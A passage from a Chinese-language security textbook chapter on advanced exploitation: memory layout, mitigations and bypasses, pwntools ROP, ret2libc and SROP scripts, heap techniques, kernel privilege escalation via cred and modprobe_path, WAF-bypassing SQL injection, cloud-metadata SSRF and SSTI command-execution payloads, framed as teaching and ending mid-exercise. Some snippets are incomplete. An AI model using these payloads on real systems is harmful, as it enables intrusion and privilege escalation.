


# 第31章 高级漏洞利用技术 — 深度拓展

本章前六节已系统讲解了内核漏洞利用、虚拟机逃逸、浏览器漏洞利用三大领域的理论基础、核心技巧、实战案例和练习方法。本节作为全章的"深度拓展"，旨在将零散的技术点编织成完整的知识体系，补充前沿研究方向，提供可操作的进阶路径，帮助读者从"会用"走向"能研究"。

## 一、漏洞利用理论体系深化

### 1.1 CWE漏洞分类与利用映射

理解漏洞分类不是学术任务，而是实战需要——不同的漏洞类别对应截然不同的利用路径和防护策略。**CWE（Common Weakness Enumeration）** 作为MITRE维护的弱点枚举体系，提供了从根因到利用的映射框架。

| CWE编号 | 漏洞类型 | 利用难度 | 利用方式 | 防护重点 |
|---------|---------|---------|---------|---------|
| CWE-120 | 缓冲区溢出（Classic） | 中等 | 覆盖返回地址/函数指针 | Stack Canary, CFI |
| CWE-416 | Use-After-Free | 中高 | 控制已释放内存的重分配 | MTE, quarantine |
| CWE-787 | 越界写入（OOBW） | 中等 | 覆盖相邻对象数据 | ASan, SafeStack |
| CWE-362 | 竞态条件 | 高 | 利用时间窗口并发操作 | 锁机制, 事务隔离 |
| CWE-798 | 硬编码凭证 | 低 | 直接获取认证信息 | 密钥管理, 环境变量 |
| CWE-502 | 不安全反序列化 | 中高 | 注入恶意对象链 | 白名单, 类型检查 |
| CWE-918 | SSRF | 中等 | 诱导服务端发起内网请求 | URL白名单, 网络隔离 |
| CWE-611 | XXE注入 | 中等 | 读取文件/执行SSRF | 禁用外部实体解析 |

**关键理解**：同一漏洞类型在不同目标上的利用方式差异巨大。例如同样是 UAF，在 Chrome V8 引擎中利用需要精确的堆布局控制（Heap Feng Shui），在 Linux 内核中则需要借助 msg_msg 或 pipe_buffer 等内核对象进行堆喷射。理解 CWE 到利用方式的映射，能帮助你在面对新目标时快速判断攻击路径。

### 1.2 内存破坏的底层原理

#### 程序内存布局全景

一个运行中的进程，其虚拟内存空间由低地址到高地址的典型布局如下：

```text
低地址 ┌─────────────────────┐ 0x00000000
       │  保留区域（未映射）    │
       ├─────────────────────┤
       │  Text段（代码段）     │  只读+可执行
       │  存放编译后的机器码    │
       ├─────────────────────┤
       │  Data段（已初始化）   │  只读（.rodata）/
       │  全局变量、静态变量    │  可读写（.data）
       ├─────────────────────┤
       │  BSS段（未初始化）    │  可读写，启动时清零
       ├─────────────────────┤
       │  堆（Heap）          │  向高地址增长
       │  malloc/new分配      │  ← brk/sbrk控制
       ├─────────────────────┤
       │                     │
       │  未映射区域           │  两块区域相对增长
       │                     │
       ├─────────────────────┤
       │  内存映射（mmap）    │  共享库、文件映射
       ├─────────────────────┤
       │  栈（Stack）         │  向低地址增长
       │  函数帧、局部变量     │  ← 栈指针SP控制
       ├─────────────────────┤
       │  内核空间            │  0xC0000000以上(32位)
       │  进程不可直接访问     │  0xFFFF... (64位)
高地址 └─────────────────────┘
```

**栈的内部结构**对漏洞利用至关重要。每次函数调用会在栈上创建一个**栈帧（Stack Frame）**：

```text
        高地址
    ┌──────────────────┐
    │  调用者的栈帧      │
    ├──────────────────┤ ← 调用前的RBP
    │  参数（逆序压入）   │  arg4, arg3, ...
    ├──────────────────┤
    │  返回地址（RET）   │  ← 溢出覆盖目标
    ├──────────────────┤ ← 调用后的RBP (旧RBP保存处)
    │  保存的RBP        │
    ├──────────────────┤
    │  局部变量1        │  ← 缓冲区起始位置
    │  局部变量2        │
    │  ...             │
    ├──────────────────┤ ← RSP（当前栈顶）
    │  Red Zone (可选)  │
    └──────────────────┘
        低地址
```

**堆的管理机制**比栈复杂得多。Linux 用户态使用 glibc 的 **ptmalloc2** 堆管理器，其核心数据结构包括：

- **chunk**：堆分配的基本单元，每个 chunk 包含元数据头（prev_size + size）和用户数据区
- **arena**：堆管理器维护的内存区域，主线程使用 main arena，每个线程可创建 thread arena
- **bins**：空闲 chunk 的链表分类，包括 fastbins（小块快速分配）、small bins、large bins、unsorted bin

一个 free chunk 的元数据布局：

```text
    chunk ptr → ┌──────────────┐
                │  prev_size    │  （前一个chunk的size，仅当prev chunk free时有效）
                ├──────────────┤
                │  size | flags│  N | A | M | P
                │              │  N=非主arena A=非主线程 M=mmap P=前一个chunk已分配
                ├──────────────┤ ← fd pointer（指向下一个空闲chunk）
                │  fd           │
                ├──────────────┤ ← bk pointer（指向上一个空闲chunk）
                │  bk           │
                ├──────────────┤
                │  用户数据区    │
                │  ...          │
                └──────────────┘
```

### 1.3 防护机制的演化与绕过对抗

漏洞利用技术与防护机制是一场持续的军备竞赛。理解每一代防护的设计意图和绕过方法，是掌握高级利用技术的前提。

| 时代 | 防护机制 | 设计原理 | 绕过技术 | 代表年份 |
|------|---------|---------|---------|---------|
| Gen 1 | Stack Canary | 在栈帧中插入随机值，函数返回前检查 | 信息泄露Canary → 暴力破解(32位) → 绕过格式化字符串 | 2004 |
| Gen 2 | DEP/NX | 标记数据段不可执行，阻止shellcode执行 | ROP/JOP/SROP — 复用已有代码 | 2004 |
| Gen 3 | ASLR | 随机化内存基址，增加预测难度 | 信息泄露 → 逐位爆破(32位) → side-channel | 2005 |
| Gen 4 | PIE | 可执行文件地址随机化 | 结合信息泄露获取模块基址 | 2011 |
| Gen 5 | RELRO | 使GOT表只读，防止覆写GOT劫持 | ret2csu/IO_FILE利用/fini_array | 2011 |
| Gen 6 | CFI | 限制间接跳转目标为合法函数入口 | 非CFI保护的合法间接调用 → Shadow Stack绕过 | 2015 |
| Gen 7 | KASLR+KPTI | 内核地址随机化+页表隔离 | 侧信道泄露内核基址 → ret2usr/modprobe_path | 2017 |
| Gen 8 | MTE/PAC | ARM内存标签/指针认证 | 绕过标签检查/密钥恢复 | 2020+ |

**深度理解——以 ASLR 绕过为例**：

ASLR 的安全性依赖于熵的充足性。在32位系统上，栈地址仅有约8-16位熵（256-65536种可能），可通过**逐位爆破（Brute Force）**在合理时间内攻破。但在64位系统上，地址空间极大，爆破不再可行，必须借助信息泄露（Information Disclosure）获取精确地址。

```python
# 32位ASLR爆破示例（pwntools）
from pwn import *

def bruteforce_canary_and_aslr():
    while True:
        try:
            p = process('./vulnerable_32bit')
            # 泄露的格式化字符串漏洞
            payload = b'%7$x.%11$x'  # 泄露canary和libc地址
            p.sendline(payload)
            result = p.recvline()
            canary, libc_leak = result.split(b'.')
            canary = int(canary, 16)
            libc_leak = int(libc_leak, 16)
            if canary == 0 or libc_leak == 0:
                p.close()
                continue
            log.success(f'Canary: {hex(canary)}, Libc: {hex(libc_leak)}')
            return canary, libc_leak
        except EOFError:
            continue
```

## 二、高级利用技术深度剖析

### 2.1 ROP技术的工程化实践

ROP（Return-Oriented Programming）是绕过DEP/NX的核心技术，其本质是将程序已有的代码片段（gadgets）通过栈上的返回地址串联起来，拼凑出任意逻辑。前面章节已介绍了ROP原理，这里深入讲解工程化实践中的关键问题。

#### gadget 选择与链设计原则

一条高效的ROP链应遵循**最小化原则**——gadget数量越少，可靠性越高：

```python
from pwn import *

# 好的 gadget：功能单一、指令明确
# pop rdi; ret — 用于设置第一个参数
# pop rsi; pop rdx; ret — 用于设置第二、三参数
# syscall; ret — 用于系统调用

# 差的 gadget：包含副作用、依赖特定寄存器状态
# 比如 pop rdi; mov rax, [rdi]; ... 会修改rax

context.arch = 'amd64'
libc = ELF('./libc.so.6')
binary = ELF('./vulnerable')

# 获取gadget地址
rop = ROP(binary)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
pop_rsi_rdx = rop.find_gadget(['pop rsi', 'pop rdx', 'ret'])[0]

# 构造ROP链：调用 system("/bin/sh")
# 需要先泄露libc地址，这里假设已经知道libc基址
bin_sh = next(libc.search(b'/bin/sh\x00'))
system = libc.symbols['system']

chain = b'A' * offset           # padding to return address
chain += p64(pop_rdi)           # pop rdi; ret
chain += p64(bin_sh)            # rdi = "/bin/sh"
chain += p64(system)            # 调用 system("/bin/sh")
```

#### ret2libc — 最常用的ROP变种

ret2libc 是利用 libc 中的函数（如 system、execve）来执行代码，无需自定义 shellcode：

```python
# ret2libc 经典利用框架
from pwn import *

context.arch = 'amd64'
p = process('./vulnerable')

# Step 1: 通过PLT/GOT泄露libc基址
puts_plt = binary.plt['puts']
puts_got = binary.got['puts']
main_addr = binary.symbols['main']

# 构造泄露链
leak_chain = b'A' * offset
leak_chain += p64(rop.find_gadget(['pop rdi', 'ret'])[0])
leak_chain += p64(puts_got)
leak_chain += p64(puts_plt)
leak_chain += p64(main_addr)      # 返回main，继续利用

p.sendline(leak_chain)
p.recvuntil(b'\n')
puts_leak = u64(p.recvline().strip().ljust(8, b'\x00'))
log.success(f'puts leak: {hex(puts_leak)}')

# Step 2: 计算libc基址
libc_base = puts_leak - libc.symbols['puts']
libc.address = libc_base
system = libc.symbols['system']
bin_sh = next(libc.search(b'/bin/sh\x00'))

# Step 3: 执行system("/bin/sh")
final_chain = b'A' * offset
final_chain += p64(rop.find_gadget(['pop rdi', 'ret'])[0])
final_chain += p64(bin_sh)
final_chain += p64(system)

p.sendline(final_chain)
p.interactive()
```

#### SROP — 利用 sigreturn 的精巧技术

SROP（Sigreturn-Oriented Programming）利用内核的 sigreturn 系统调用，一次性设置所有寄存器值，用单个 gadget 即可完成完整的上下文切换：

```python
from pwn import *

# SROP: 利用 sigreturn 系统调用
# sigreturn 会从栈上恢复所有寄存器的值
# 因此只需控制栈布局，就能让所有寄存器变为任意值

# 构造 sigcontext 结构（对应 sigreturn 恢复的寄存器布局）
frame = SigreturnFrame()
frame.rax = 59                    # sys_execve 系统调用号
frame.rdi = bin_sh_addr           # rdi = "/bin/sh"
frame.rsi = 0                     # rsi = NULL
frame.rdx = 0                     # rdx = NULL
frame.rip = syscall_addr          # 执行 syscall
frame.rsp = 0xdeadbeef           # 任意值
frame.cs = 0x33                   # 用户态CS
frame.ss = 0x2b                   # 用户态SS
frame.fs = 0

# SROP链只需要：
# 1. 设置 rax = 15 (sys_rt_sigreturn)
# 2. 执行 syscall
# 之后 sigreturn 会从栈上读取整个 frame，恢复所有寄存器
chain = padding
chain += p64(set_rax_gadget)      # pop rax; ret → rax = 15
chain += p64(15)                  # sys_rt_sigreturn
chain += p64(syscall_addr)        # 触发 sigreturn
chain += bytes(frame)             # 栈上伪造的 sigcontext
```

### 2.2 堆利用技术的深度实践

#### House of 系列技术总览

glibc 堆利用发展出了多种经典技术路线，统称为"House of"系列。每种技术针对堆管理器的不同弱点：

| 技术名称 | 攻击目标 | 核心原理 | 适用场景 | 可靠性 |
|---------|---------|---------|---------|--------|
| House of Spirit | fastbin | 伪造chunk → malloc返回栈地址 | 栈地址已知时 | 高 |
| House of Lore | smallbin | 伪造smallbin双向链表 | 堆地址泄露 | 中 |
| House of Force | top chunk | 覆盖top chunk size → 任意偏移分配 | 堆溢出+堆地址已知 | 中（glibc 2.29+已修复） |
| House of Einherjar | 隐形free | 伪造prev_size → 拓展free chunk | off-by-one | 中 |
| House of Orange | top chunk | 触发sysmalloc → 替换top chunk | 堆溢出 | 中 |
| House of Orange v2 | FSOP | 结合_IO_FILE利用 | glibc 2.24+ | 低 |

#### UAF 利用的完整利用链

以一个典型的浏览器 UAF 漏洞为例，展示从漏洞发现到代码执行的完整利用链：

```javascript
// V8 UAF 漏洞利用的伪代码流程（概念演示）
// 实际浏览器利用要复杂得多

// Step 1: 堆喷射 — 在目标地址附近布置可控数据
var spray = [];
for (var i = 0; i < 0x10000; i++) {
    spray[i] = new Uint32Array(10);
    spray[i][0] = 0x41414141;  // 标记值
}

// Step 2: 触发漏洞 — 创建类型混淆
var a = {};      // 对象
var b = [1.1, 2.2];  // packed double array
// ... 利用漏洞将 a 的 map 修改为 b 的 map
// 现在 a 被当作 double array 访问
var corrupted_value = a[0];  // 越界读取，泄露指针

// Step 3: 地址泄露 — 计算对象地址
var heap_leak = f2i(corrupted_value);

// Step 4: 控制流劫持 — 覆盖对象的函数指针/虚表
a[correction_offset / 8] = f2i(fake_func_addr);

// Step 5: 触发被劫持的函数 → 执行任意代码
obj.someMethod();  // 实际调用的是 fake_func_addr
```

### 2.3 内核利用的特殊考量

内核利用与用户态利用有本质区别。以下是内核利用中必须面对的额外挑战：



#### 内核提权的三种经典技术

**技术一：修改进程凭证（cred 结构覆写）**

Linux 内核中每个进程的权限信息存储在 `cred` 结构体中。通过将当前进程的 `cred` 指针替换为 init 进程（PID 1）的 `cred`，即可获得 root 权限：

```c
// 内核漏洞利用的提权payload（概念代码）
// 在内核态执行的代码片段
void escalate_privilege() {
    // 获取当前进程的 task_struct
    struct task_struct *task = (struct task_struct *)current;
    
    // 获取 init 进程（PID 1）的 cred
    struct cred *init_cred = init_task.cred;
    
    // 将当前进程的 cred 替换为 init 的 cred
    // 这样当前进程就获得了 root 的全部权限
    commit_creds(init_cred);
    
    // 提权后的 payload
    // 通常是在内核态 spawn 一个 root shell
}
```

```python
# pwntools 中实现内核提权的伪代码
from pwn import *

# Step 1: 触发内核漏洞
# Step 2: 在内核态执行提权代码
# Step 3: 返回用户态，spawn root shell

# 使用 ret2usr 技术（SMEP未启用时）
# 在用户态布置 shellcode，内核跳转到用户态执行
shellcode = asm(shellcraft.sh())  # 生成 /bin/sh shellcode
payload = b'A' * offset + p64(victim_func) + shellcode

# 使用 ROP 技术（SMEP启用时）
# 需要在内核态构造 ROP 链
# 关键 gadget: swapgs; iretq 用于返回用户态
```

**技术二：modprobe_path 覆写**

`modprobe_path` 是内核中指向 modprobe 程序的路径字符串（默认 `/sbin/modprobe`）。当内核执行未知格式的二进制文件时，会调用这个路径指向的程序。通过覆写这个路径，可以让内核执行攻击者控制的脚本：

```c
// 内核 modprobe_path 利用的概念代码

// Step 1: 在内核中找到 modprobe_path 的地址
// 可以通过 /proc/kallsyms 或信息泄露获取

// Step 2: 将 modprobe_path 修改为攻击者控制的路径
// 例如修改为 /tmp/evil_script

// Step 3: 触发内核调用 modprobe
// 执行一个格式未知的文件
// echo -e '\xff\xff\xff\xff' > /tmp/trigger
// chmod +x /tmp/trigger
// /tmp/trigger

// Step 4: /tmp/evil_script 以 root 权限执行
//!/bin/bash
# chmod 777 /flag  # 或任何提权操作
```

**技术三：争用条件（Race Condition）**

内核中的竞态条件利用是高级技术，核心是在时间窗口内执行两次操作：

```python
# 竞态条件利用框架
from pwn import *
import threading

def race_thread():
    """高速争用线程"""
    for _ in range(1000000):
        # 尝试在窗口期内操作
        try:
            p.send(b'trigger_race_condition')
        except:
            pass

# 启动争用线程
race = threading.Thread(target=race_thread)
race.start()

# 主线程在正确时间点触发利用
trigger_vulnerability()

race.join()
```

## 三、Web高级利用技术实操

### 3.1 高级SQL注入绕过

WAF（Web应用防火墙）是SQL注入的主要防线，但可通过多种技术绕过：

```sql
-- WAF绕过技巧集合

-- 1. 内联注释混淆
/*!50000UNION*/ /*!50000SELECT*/ username, password FROM users;

-- 2. 编码变换
-- URL编码: UNION → %55%4E%49%4F%4E
-- 双重URL编码: UNION → %2555%254E%2549%254F%254E
-- Unicode编码: UNION → uNiOn

-- 3. 分块传输绕过
-- 将payload拆分为多个chunk发送
-- Transfer-Encoding: chunked
-- 6\r\n
-- UNI\x4fN\r\n
-- 7\r\n
-- SELECT\r\n
-- ...

-- 4. HTTP参数污染（HPP）
-- id=1' OR '1'='1&id=1' UNION SELECT 1,2,3--
-- 某些WAF只检查第一个参数，后端使用最后一个

-- 5. 二次注入
-- 先将恶意数据存入数据库
INSERT INTO users(name) VALUES("admin'--");
-- 后续查询时触发
SELECT * FROM users WHERE name = "admin'--";
```

### 3.2 SSRF的深度利用

SSRF（Server-Side Request Forgery）在云环境中尤为危险，因为云元数据服务默认无需认证：

```python
import requests

# SSRF 云环境利用示例

# 1. 访问 AWS 元数据服务
aws_metadata = "http://169.254.169.254/latest/meta-data/"

# 2. 访问 GCP 元数据服务（需要Header）
gcp_metadata = "http://metadata.google.internal/computeMetadata/v1/"
headers = {"Metadata-Flavor": "Google"}

# 3. 访问 Azure 元数据服务
azure_metadata = "http://169.254.169.254/metadata/instance?api-version=2021-02-01"

# 4. SSRF绕过技术——DNS重绑定
# 注册域名，第一次解析到内网IP（绕过检查），第二次解析到攻击者服务器
# 通过降低TTL实现重绑定
```

### 3.3 SSTI模板注入的利用体系

SSTI 的危害程度取决于目标模板引擎的沙箱限制。以下是主流模板引擎的利用方法对比：

```python
# Jinja2 (Python/Flask) SSTI
# 首先检测引擎类型
{{7*7}}  # 输出49 → Jinja2
# 利用链
{{config.__class__.__init__.__globals__['os'].popen('id').read()}}

# Twig (PHP) SSTI
# 基本利用
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}

# Freemarker (Java) SSTI
<#assign ex="freemarker.template.utility.Execute"?new()>${ex("id")}

# Velocity (Java) SSTI
# 获取Runtime对象
#set($rt = $class.inspect("java.lang.Runtime"))
${rt.getRuntime().exec("id")}

# Go html/template SSTI
# Go的template包有较好的沙箱限制，但仍可利用
```

## 四、漏洞利用链设计方法论

### 4.1 什么是漏洞利用链

现代软件（尤其是浏览器、操作系统内核）部署了多层防护机制，单个漏洞往往不足以完成完整攻击。**漏洞利用链（Exploit Chain）** 是将多个漏洞组合，逐步突破各层防护的攻击序列。

一个典型的浏览器完整利用链包含以下环节：



### 4.2 利用链设计的五个原则

1. **最小漏洞原则**：尽量减少利用链中漏洞的数量，每个额外漏洞都增加利用的不确定性和维护成本
2. **可靠性优先**：优先选择稳定性高的漏洞和利用方式，避免依赖竞态条件等不确定性技术
3. **信息泄露先行**：几乎每条利用链都需要信息泄露来突破 ASLR/KASLR
4. **可控降级**：每步利用失败时应有安全的回退路径，不影响下一步尝试
5. **隐蔽执行**：避免触发异常行为（如大量内存分配、频繁崩溃），降低被检测的概率

### 4.3 Chrome完整利用链实例分析

以 Chrome 浏览器的典型利用链为例，说明每个环节的技术选择：

```cpp
┌─────────────────────────────────────────────────────────────┐
│                    Chrome 完整利用链                          │
├─────────────────────────────────────────────────────────────┤
│                                                             │
│  Step 1: 渲染器漏洞利用                                      │
│  ├─ 漏洞类型: V8 类型混淆 (Type Confusion)                   │
│  ├─ 触发方式: 构造特殊的 JavaScript 对象                      │
│  ├─ 获得能力: 堆上的越界读写 (OOB Read/Write)                 │
│  └─ 成功率: ~80%（取决于漏洞稳定性）                         │
│                                                             │
│  Step 2: 堆地址泄露                                          │
│  ├─ 技术: 利用OOB读取相邻对象的指针                          │
│  ├─ 获得能力: 堆布局可预测                                   │
│  └─ 依赖: Step 1 的 OOB 读取                               │
│                                                             │
│  Step 3: 代码基址泄露                                        │
│  ├─ 技术: 泄露 V8 代码段中的函数指针                         │
│  ├─ 获得能力: 构造 ROP 链                                   │
│  └─ 依赖: Step 2 的堆地址                                   │
│                                                             │
│  Step 4: 构造 ROP 链                                        │
│  ├─ 技术: 在堆上布置伪造对象 + ROP chain                     │
│  ├─ gadget来源: v8_shell + libc                             │
│  └─ 目标: 调用 execve("/bin/sh") 或弹出计算器                │
│                                                             │
│  Step 5: 沙箱逃逸（如果需要）                                │
│  ├─ 漏洞类型: 内核 UAF / GPU 驱动漏洞                       │
│  ├─ 获得能力: 突破 Chrome 沙箱                              │
│  └─ 沙箱模型: Mojo IPC + seccomp-BPF + namespace            │
│                                                             │
└─────────────────────────────────────────────────────────────┘
```

## 五、行业前沿研究方向

### 5.1 硬件级漏洞利用

现代CPU的性能优化引入了多类硬件漏洞，影响范围覆盖所有软件栈：

**Spectre 家族**利用推测执行（Speculative Execution）的微架构特性：

| 变体 | 漏洞类型 | 攻击方式 | 影响范围 | 防护状态 |
|------|---------|---------|---------|---------|
| Spectre v1 | 边界检查绕过 | 构造恶意分支预测 | 所有现代CPU | Retpoline, LFENCE |
| Spectre v2 | 分支目标注入 | 注入间接分支目标 | 所有现代CPU | IBRS, STIBP |
| Spectre-RSB | 返回栈缓冲区污染 | 覆盖RSB条目 | 多厂商 | RSB填充 |
| Spectre v4 | 推测存取绕过 | 侧信道读取SSDS | 多厂商 | SSBD |

**Meltdown** 利用乱序执行在异常处理前读取内核数据，x86上影响严重但ARM/RISC-V受影响较小。

**Rowhammer** 通过高频访问DRAM中的特定行（Row），利用电磁耦合导致相邻行的位翻转（Bit Flip）。Google 的 Project Zero 已证明 Rowhammer 可用于绕过虚拟化隔离：

```text
Rowhammer 攻击流程：
1. 反复刷新(dramatize)同一DRAM行的两个地址
2. 目标行的电荷泄漏导致位翻转
3. 利用位翻转修改页表项(PTE)
4. 将任意物理页映射到攻击者可控的虚拟地址
5. 实现任意物理内存读写 → 权限提升
```

### 5.2 AI辅助漏洞利用

AI/ML技术正在改变漏洞利用的多个环节：

| 应用领域 | 当前状态 | 代表工具/项目 | 实际效能 |
|---------|---------|-------------|---------|
| 漏洞发现（Fuzzing） | 生产可用 | AFL++, libFuzzer, Syzkaller | 比人工Fuzz效率高10-100倍 |
| 漏洞分析 | 实验阶段 | ChatGPT/Claude辅助分析 | 加速理解速度，但不能替代深度分析 |
| 漏洞利用生成 | 研究阶段 | GPTExploit, VEGAS | 简单CTF题目可自动解，复杂利用仍需人工 |
| 补丁生成 | 研究阶段 | 多个学术项目 | 特定类型的漏洞补丁已可自动生成 |
| 二进制分析 | 生产可用 | BinaryAI (IDA插件) | 加速逆向过程中的函数识别和注释 |

**实际应用建议**：当前AI最适合辅助漏洞研究中的"信息收集"和"代码理解"环节——比如快速理解一个陌生的内核子系统、生成模糊的利用思路、辅助编写pwntools脚本框架。但核心的漏洞利用构造、堆布局设计、绕过策略选择仍需人类专家判断。

### 5.3 云环境攻击面

云环境引入了全新的攻击面和威胁模型：

```text
云环境攻击面分层模型：
┌─────────────────────────────────────────┐
│  SaaS层  │ 身份伪造、API滥用、租户隔离   │
├─────────────────────────────────────────┤
│  PaaS层  │ 函数注入、依赖投毒、配置错误   │
├─────────────────────────────────────────┤
│  IaaS层  │ 元数据SSRF、容器逃逸、VM逃逸  │
├─────────────────────────────────────────┤
│  硬件层  │ 侧信道、Rowhammer、供应链     │
└─────────────────────────────────────────┘
```

容器逃逸是云安全的核心议题。以 Docker 为例，常见的逃逸路径：

```bash
# Docker容器逃逸检查项
# 1. 检查是否以特权模式运行
cat /proc/1/cgroup | grep docker
ls -la /dev/sda  # 如果能看到宿主机磁盘，说明可能有逃逸路径

# 2. 检查capabilities
cat /proc/1/status | grep Cap
# SYS_ADMIN (bit 21) = 可挂载文件系统
# NET_ADMIN (bit 12) = 可操作网络

# 3. 检查namespace隔离
ls -la /proc/1/ns/
# 如果看到与宿主机相同的pid/net/mnt namespace，说明隔离不足

# 4. 检查seccomp策略
cat /proc/1/status | grep Seccomp
# Seccomp: 0 表示无限制
```

### 5.4 移动平台与IoT

**Android 内核漏洞利用**与桌面Linux内核类似，但有ARM架构特殊性：

- ARM PAC（Pointer Authentication）：指针认证码保护返回地址和函数指针
- ARM MTE（Memory Tagging Extension）：内存标签化，检测UAF和越界访问
- Android SELinux：强制访问控制，即使获得root也受策略约束

**IoT 固件利用**的关键步骤：

1. 固件提取：通过串口（UART/JTAG）、SPI flash读取、云端下载等
2. 固件解包：使用 binwalk 提取文件系统
3. 漏洞分析：审查自定义服务、检查已知CVE、Fuzzing
4. 漏洞利用：构建ROP链（IoT设备通常无ASLR/DEP/Canary）

```bash
# IoT固件分析工作流
# Step 1: 固件提取
binwalk -e firmware.bin           # 自动提取
# 或手动分析binwalk扫描结果，用dd提取

# Step 2: 文件系统分析
cd _firmware.bin.extracted/squashfs-root/
find . -name "*.conf" -o -name "*.sh" -o -name "*.cgi"
grep -r "password" etc/shadow etc/passwd
grep -r "hardcoded" etc/ config/ www/

# Step 3: 漏洞识别
strings usr/bin/httpd | grep -i "system\|popen\|exec"
# 检查是否调用system()执行用户可控输入（命令注入）
checksec --file=usr/bin/httpd
# IoT设备通常无任何保护：No RELRO, No Canary, No NX, No PIE

# Step 4: 利用开发（假设发现命令注入）
# 目标通常无任何保护，简单的栈溢出即可
```

## 六、推荐学习资源

### 6.1 必读经典

| 书名 | 作者 | 出版信息 | 核心内容 | 适合阶段 |
|------|------|---------|---------|---------|
| 《Hacking: The Art of Exploitation》 | Jon Erickson | No Starch Press, 2008 (2nd Ed) | 从原理到实践的漏洞利用全书 | 入门→进阶 |
| 《The Shellcoder's Handbook》 | Chris Anley等 | Wiley, 2007 (2nd Ed) | 多平台漏洞利用技术百科 | 进阶 |
| 《漏洞战争》 | 罗巍 | 电子工业出版社, 2016 | 中文漏洞分析教材，案例丰富 | 入门→进阶 |
| 《A Guide to Kernel Exploitation》 | Enrico Perla | Syngress, 2010 | 内核漏洞利用专著 | 进阶→高级 |
| 《The Browser Hacker's Handbook》 | Wade Alcorn等 | Wiley, 2014 | 浏览器安全攻防全书 | 进阶→高级 |
| 《The Art of Software Security Assessment》 | John McDonald等 | Addison-Wesley, 2006 | 软件安全审计经典 | 进阶 |
| 《Practical Binary Analysis》 | Dennis Andriesse | No Starch Press, 2018 | 二进制分析与逆向工程 | 入门→进阶 |

### 6.2 在线平台与社区

| 平台 | URL | 特色 | 推荐度 |
|------|-----|------|--------|
| Exploit Database | exploit-db.com | 公开漏洞利用代码库 | ★★★★★ |
| Project Zero Blog | googleprojectzero.blogspot.com | 最高质量的漏洞研究 | ★★★★★ |
| ROP Emporium | ropemporium.com | 交互式ROP学习 | ★★★★☆ |
| pwnable.kr / pwnable.tw | pwnable.kr / pwnable.tw | PWN练习平台（从入门到高级） | ★★★★★ |
| CTFtime | ctfime.org | CTF比赛聚合与WriteUp | ★★★★☆ |
| 看雪论坛 | bbs.kanxue.com | 中文安全社区，逆向/漏洞/安卓 | ★★★★☆ |
| Hack The Box | hackthebox.com | 综合渗透测试平台 | ★★★★☆ |
| LiveOverflow (YouTube) | youtube.com/c/LiveOverflow | 优质安全教学视频 | ★★★★☆ |

### 6.3 核心工具链

| 工具 | 类别 | 用途 | 获取方式 |
|------|------|------|---------|
| GDB + pwndbg | 调试器 | 二进制动态分析 | `git clone github.com/pwndbg/pwndbg && ./setup.sh` |
| pwntools | Exploit框架 | Python漏洞利用开发 | `pip install pwntools` |
| ROPgadget / ropper | Gadget搜索 | ROP链构造辅助 | `pip install ROPgadget` / `pip install ropper` |
| one_gadget | 一键Gadget | libc中寻找execve gadget | `gem install one_gadget` |
| Ghidra | 反编译器 | 免费逆向工程工具 | ghidra-sre.org |
| IDA Pro | 反汇编器 | 行业标准逆向工具 | hex-rays.com |
| Radare2 | 逆向框架 | 开源逆向平台 | `git clone github.com/radareorg/radare2` |
| Metasploit | Exploit框架 | 漏洞利用开发和测试 | metasploit.com |
| AFL++ | Fuzzing | 基于覆盖率的模糊测试 | `apt install afl++` |
| Syzkaller | 内核Fuzzing | Linux内核漏洞发现 | github.com/google/syzkaller |

## 七、思考题与讨论

### 思考题

**1. 防护绕过**
ASLR 的安全性依赖于地址空间的熵值。在32位系统上为什么可以暴力破解ASLR？在64位系统上为什么不行？请从地址空间大小的角度计算并分析。

**2. ROP链设计**
假设你在构造一个绕过SMEP和SMAP的内核ROP链，目标是执行 `commit_creds(prepare_kernel_cred(0))`。请描述你需要哪些类型的gadget，如何解决参数传递问题，以及如何通过 `swapgs; iretq` 返回用户态。

**3. 堆利用**
对比 fastbins 和 tcache（glibc 2.26+）在利用上的异同。tcache 的 double-free 检测比 fastbins 弱在哪里？

**4. 漏洞利用链**
